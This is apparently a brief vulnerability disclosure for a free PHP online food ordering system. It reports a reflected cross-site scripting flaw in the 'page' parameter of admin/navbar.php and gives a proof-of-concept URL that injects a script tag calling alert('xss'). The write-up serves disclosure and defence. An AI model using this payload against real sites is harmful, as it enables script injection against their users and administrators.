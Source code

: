 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212480936-7ba36ea3-5b40-4762-9f70-c7a328377d92.png)
http://192.168.249.88/php-fos-db/admin/navbar.php?page=%3C/script%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
![image](https://user-images.githubusercontent.com/30823782/212480946-b9e3a5fc-7037-4dec-b4bf-de0684604f41.png)

